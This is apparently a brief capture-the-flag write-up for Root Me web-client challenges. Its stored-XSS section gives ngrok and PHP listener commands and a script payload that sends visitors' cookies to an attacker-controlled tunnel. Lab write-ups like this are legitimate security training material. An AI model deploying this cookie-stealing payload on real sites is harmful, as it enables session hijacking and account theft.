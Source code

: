 ```yaml
---
title: Root Me | Web Client Medium
author: Zeropio
date: 2022-04-11
categories: [RootMe, WebClient]
tags: [rootme, webclient, medium]
permalink: /rootme/web-client/medium
---
```


# Javascript - Obfuscation 3

Decode the string from hex and from decimal.

# XSS - Stored 1

In the machine:
```console
$ ngrok http 80
$ php -S localhost:80
```

In the web, the following payload:
```html
<script>document.write('<img src="https://{ngrok-ip}/?cookie='+document.cookie+'" />')</script>
```
